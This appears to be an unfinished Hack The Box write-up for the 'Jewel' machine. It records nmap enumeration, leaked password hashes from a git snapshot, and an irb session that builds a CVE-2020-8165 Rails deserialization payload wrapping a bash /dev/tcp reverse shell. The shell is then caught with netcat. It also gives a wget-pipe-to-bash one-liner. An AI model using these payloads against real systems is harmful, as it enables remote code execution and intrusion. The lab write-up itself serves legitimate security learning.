










# HTB - Jewel

## Overview


Short description to include any strange things to be dealt with

TODO: finish writeup and clean up

## Useful Skills and Tools

### Execute a shell script payload without writing to disk

```bash
wget -O - -q $url:$port/$file | bash
```

* that extra \(`-`\) is important, don't leave it out!

#### Useful thing 2

* description with generic example

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.211`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oA <name>` saves the output with a filename of `<name>`.

```text
┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ nmap -sCV -n -p- -Pn -v -oA jewel 10.10.10.211                                                130 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-13 20:56 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:56
Completed NSE at 20:56, 0.00s elapsed
Initiating NSE at 20:56
Completed NSE at 20:56, 0.00s elapsed
Initiating NSE at 20:56
Completed NSE at 20:56, 0.00s elapsed
Initiating Connect Scan at 20:56
Scanning 10.10.10.211 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.211
Discovered open port 22/tcp on 10.10.10.211
Connect Scan Timing: About 17.74% done; ETC: 20:58 (0:02:24 remaining)
Connect Scan Timing: About 41.92% done; ETC: 20:58 (0:01:25 remaining)
Connect Scan Timing: About 65.74% done; ETC: 20:58 (0:00:47 remaining)
Discovered open port 8000/tcp on 10.10.10.211
Completed Connect Scan at 20:58, 125.55s elapsed (65535 total ports)
Initiating Service scan at 20:58
Scanning 3 services on 10.10.10.211
Completed Service scan at 20:58, 11.25s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.211.
Initiating NSE at 20:58
Completed NSE at 20:58, 2.77s elapsed
Initiating NSE at 20:58
Completed NSE at 20:58, 0.33s elapsed
Initiating NSE at 20:58
Completed NSE at 20:58, 0.00s elapsed
Nmap scan report for 10.10.10.211
Host is up (0.076s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
8000/tcp open  http    Apache httpd 2.4.38
|_http-generator: gitweb/2.20.1 git/2.20.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: 10.10.10.211 Git
|_Requested resource was http://10.10.10.211:8000/gitweb/
8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
Service Info: Host: jewel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 20:58
Completed NSE at 20:58, 0.00s elapsed
Initiating NSE at 20:58
Completed NSE at 20:58, 0.00s elapsed
Initiating NSE at 20:58
Completed NSE at 20:58, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.32 seconds
```

My nmap scan found only three open ports: 22 -SSH, 8000 - HTTP, and 8080 - HTTP.

### Port 8080 - HTTP


On the site hosted on port 8080 I found a "Bl0g" site.  While looking through the articles I found two potential usernames `bill` and `jennifer`. 



created an account, then logged in. 



On the profile page saw a 'edit profile' link and was hoping for a image upload box, but there wasn't anything useful as I could only update the username.

### Port 8000 - HTTP



On the web server hosted on port 8000 I found a git page for the "Bl0g".



file tree



The file `Gemfile` contained version information for all of the source files for the project, including the version of the Ruby on Rails Framework.



in the git code I found a couple of password hashes, in the file bd.sql



I downloaded the git code for the site by clicking on the `snapshot` link.  I opened the SQL database locally but didn't find anything more that seemed useful in it, or in the rest of the code files.

```text
COPY public.users (id, username, email, created_at, updated_at, password_digest) FROM stdin;
+1      bill    bill@mail.htb   2020-08-25 08:13:58.662464      2020-08-25 08:13:58.662464      $2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
+2      jennifer        jennifer@mail.htb       2020-08-25 08:54:42.8483        2020-08-25 08:54:42.8483        $2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy
+\.
```

This also includes email addresses for the users with a domain of `mail.htb`.

While looking up version numbers for everything, I found an exploit for this version of git, but it looked to only work on Windows.

* [https://exploitbox.io/vuln/Git-Git-LFS-RCE-Exploit-CVE-2020-27955.html](https://exploitbox.io/vuln/Git-Git-LFS-RCE-Exploit-CVE-2020-27955.html)

Back in the code in the `Gemfile` I had found version numbers for rails 5.2.2.1. After searching for vulnerabilities for this version I found multiple CVEs that were related:

* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8165](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8165)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8164](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8164)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5267](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5267)

I tried searching for exploits related to each CVE and came up with a POC for CVE-2020-8165.

* [https://www.cvebase.com/cve/2020/8165](https://www.cvebase.com/cve/2020/8165)

On cvebase there were eight POCs listed for this CVE which looked like a winner! I selected the one with the most upvotes which took me to a GitHub page.

* [https://github.com/masahiro331/CVE-2020-8165](https://github.com/masahiro331/CVE-2020-8165)

The instructions looked simple enough to follow, but I did not have rails installed, so I did that first.  Next, I created a new project called `test`. \(Had to change the name to `testing`, since 'test' is apparently a ruby/rails reserved key word.\)

```text
┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ rails new testing             
      create  
      create  README.md
      create  Rakefile
      create  .ruby-version
      create  config.ru
      create  .gitignore
      create  Gemfile
         run  git init from "."
hint: Using 'master' as the name for the initial branch. This default branch name
hint: is subject to change. To configure the initial branch name to use in all
hint: of your new repositories, which will suppress this warning, call:
hint: 
hint:   git config --global init.defaultBranch <name>
hint: 
hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
hint: 'development'. The just-created branch can be renamed via this command:
hint: 
hint:   git branch -m <name>
Initialized empty Git repository in /home/zweilos/htb/jewel/exploit/.git/
      create  package.json
      create  app
      create  app/assets/config/manifest.js
      create  app/assets/stylesheets/application.css
      create  app/channels/application_cable/channel.rb
      create  app/channels/application_cable/connection.rb
      create  app/controllers/application_controller.rb
      create  app/helpers/application_helper.rb
      create  app/javascript/channels/consumer.js
      create  app/javascript/channels/index.js
      create  app/javascript/packs/application.js
      create  app/jobs/application_job.rb
      create  app/mailers/application_mailer.rb
      create  app/models/application_record.rb
      create  app/views/layouts/application.html.erb
      create  app/views/layouts/mailer.html.erb
      create  app/views/layouts/mailer.text.erb
      create  app/assets/images
      create  app/assets/images/.keep
      create  app/controllers/concerns/.keep
      create  app/models/concerns/.keep
      create  bin
      create  bin/rails
      create  bin/rake
      create  bin/setup
      create  bin/yarn
      create  config
      create  config/routes.rb
      create  config/application.rb
      create  config/environment.rb
      create  config/cable.yml
      create  config/puma.rb
      create  config/spring.rb
      create  config/storage.yml
      create  config/environments
      create  config/environments/development.rb
      create  config/environments/production.rb
      create  config/environments/test.rb
      create  config/initializers
      create  config/initializers/application_controller_renderer.rb
      create  config/initializers/assets.rb
      create  config/initializers/backtrace_silencers.rb
      create  config/initializers/content_security_policy.rb
      create  config/initializers/cookies_serializer.rb
      create  config/initializers/cors.rb
      create  config/initializers/filter_parameter_logging.rb
      create  config/initializers/inflections.rb
      create  config/initializers/mime_types.rb
      create  config/initializers/new_framework_defaults_6_0.rb
      create  config/initializers/wrap_parameters.rb
      create  config/locales
      create  config/locales/en.yml
      create  config/master.key
      append  .gitignore
      create  config/boot.rb
      create  config/database.yml
      create  db
      create  db/seeds.rb
      create  lib
      create  lib/tasks
      create  lib/tasks/.keep
      create  lib/assets
      create  lib/assets/.keep
      create  log
      create  log/.keep
      create  public
      create  public/404.html
      create  public/422.html
      create  public/500.html
      create  public/apple-touch-icon-precomposed.png
      create  public/apple-touch-icon.png
      create  public/favicon.ico
      create  public/robots.txt
      create  tmp
      create  tmp/.keep
      create  tmp/pids
      create  tmp/pids/.keep
      create  tmp/cache
      create  tmp/cache/assets
      create  vendor
      create  vendor/.keep
      create  test/fixtures
      create  test/fixtures/.keep
      create  test/fixtures/files
      create  test/fixtures/files/.keep
      create  test/controllers
      create  test/controllers/.keep
      create  test/mailers
      create  test/mailers/.keep
      create  test/models
      create  test/models/.keep
      create  test/helpers
      create  test/helpers/.keep
      create  test/integration
      create  test/integration/.keep
      create  test/channels/application_cable/connection_test.rb
      create  test/test_helper.rb
      create  test/system
      create  test/system/.keep
      create  test/application_system_test_case.rb
      create  storage
      create  storage/.keep
      create  tmp/storage
      create  tmp/storage/.keep
      remove  config/initializers/cors.rb
      remove  config/initializers/new_framework_defaults_6_0.rb
         run  bundle install --local
Could not find gem 'rails (~> 6.0.3, >= 6.0.3.4)' in any of the gem sources listed in your Gemfile.
         run  bundle binstubs bundler
Could not find gem 'rails (~> 6.0.3, >= 6.0.3.4)' in any of the gem sources listed in your Gemfile.
         run  bundle exec spring binstub --all
Could not find gem 'rails (~> 6.0.3, >= 6.0.3.4)' in any of the gem sources listed in your Gemfile.
Run `bundle install` to install missing gems.
       rails  webpacker:install
Could not find gem 'rails (~> 6.0.3, >= 6.0.3.4)' in any of the gem sources listed in your Gemfile.
Run `bundle install` to install missing gems.

┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ cd testing

┌──(zweilos㉿kali)-[~/htb/jewel/exploit]
└─$ bundle install                                                                                                                                                                                            7 ⨯
Fetching gem metadata from https://rubygems.org/............
Fetching gem metadata from https://rubygems.org/.
Resolving dependencies....
Fetching rake 
Installing rake 

...snipped...
```

After installing rails and starting my new project I got an error message saying some of the dependencies were not installed, so I had to run the `bundle install` command to install those as well. There was a long list of things it installed. 


If you get any further errors make sure to read the errors and follow what they say.  Each error should be verbose enough to tell you what needs to be done to resolve the problem.


I had a lot of dependency issues, from yarn, webpacker, rails, and more...

* [https://github.com/rails/webpacker/issues/818](https://github.com/rails/webpacker/issues/818)

```text
┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ bundle clean                    

┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ which yarn
/usr/local/bin/yarn

┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ sudo gem uninstall -aIx yarn
Removing yarn
Successfully uninstalled yarn-0.1.1

┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ sudo npm install --global yarn

added 1 package, and audited 2 packages in 1s

found 0 vulnerabilities

┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ rails webpacker:install       
      create  config/webpacker.yml
Copying webpack core config
```

I had to do the above steps to resolve the webpacker issues I was receiving. For some reason the gem version of yarn was causing problems, so I had to remove it and install it through npm. 

```text
┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ rails c                
Loading development environment (Rails 6.0.3.5)
irb(main):001:0>
```

After installing all of the dependencies I was able to start the rails console.

```ruby
┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ rails c                
Loading development environment (Rails 6.0.3.5)
irb(main):001:0> code = '`bash -c "bash -i >& /dev/tcp/10.10.15.13/8099 0>&1"`'
=> "`bash -c \"bash -i >& /dev/tcp/10.10.15.13/8099 0>&1\"`"
irb(main):002:0> erb = ERB.allocate
=> #<ERB:0x000055d8ee5731a0>
irb(main):003:0> erb.instance_variable_set :@src, code
=> "`bash -c \"bash -i >& /dev/tcp/10.10.15.13/8099 0>&1\"`"
irb(main):004:0> erb.instance_variable_set :@filename, "1"
=> "1"
irb(main):005:0> erb.instance_variable_set :@lineno, 1
=> 1
irb(main):006:0> payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
=> "\x04\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\t:\x0E@instanceo:\bERB\b:\t@srcI\":`bash -c \"bash -i >& /dev/tcp/10.10.15.13/8099 0>&1\"`\x06:\x06ET:\x0E@filenameI\"\x061\x06;\tT:...
irb(main):009:0> require 'uri'
=> false
irb(main):010:0> puts URI.encode_www_form(payload: payload)
payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3A%60bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.15.13%2F8099+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
=> nil
irb(main):011:0>quit()
```

After all of that work, it was pretty easy to follow the instructions in the POC to create the payload.  



captured request to change the username on the 'edit profile' page in burp, then added my payload in place of the username field



On the exit profile page, got an error message after sending my payload in place of the username field, but  the payload still executed.

## Initial Foothold

```text
zweilos@kali:~/htb/jewel$ script
Script started, output log file is 'typescript'.
┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ bash      
zweilos@kali:~/htb/jewel$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.15.13] from (UNKNOWN) [10.10.10.211] 40016
bash: cannot set terminal process group (818): Inappropriate ioctl for device
bash: no job control in this shell
bill@jewel:~/blog$
```

After sending my payload and sending another GET request for the profile page I got a connection back at my waiting netcat listener. I used the program `script` to save a transcript of all commands that I was about to run in the netcat shell, and made sure my listener was running in bash rather than `zsh`, since the latter causes issues when setting `stty raw -echo` when upgrading shells.

```text
bill@jewel:~/blog$ which python3
which python3
/usr/bin/python3
bill@jewel:~/blog$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
bill@jewel:~/blog$ ^Z
[1]+  Stopped                 nc -lvnp 8099
zweilos@kali:~/htb/jewel$ stty raw -echo
nc -lvnp 8099:~/htb/jewel$ 

bill@jewel:~/blog$ export TERM=xterm-256color
bill@jewel:~/blog$
```

Upgraded my shell so I could use `ctrl-c`, arrow keys for history, etc.

```text
bill@jewel:~$ id && hostname
uid=1000(bill) gid=1000(bill) groups=1000(bill)
jewel.htb
```

I was logged in a bill, no special groups

```text
bill@jewel:~/blog$ cd /home
bill@jewel:/home$ ls
bill
bill@jewel:/home$ cd bill/
bill@jewel:~$ ls -la
total 52
drwxr-xr-x  6 bill bill 4096 Sep 17 14:10 .
drwxr-xr-x  3 root root 4096 Aug 26 09:32 ..
lrwxrwxrwx  1 bill bill    9 Aug 27 11:26 .bash_history -> /dev/null
-rw-r--r--  1 bill bill  220 Aug 26 09:32 .bash_logout
-rw-r--r--  1 bill bill 3526 Aug 26 09:32 .bashrc
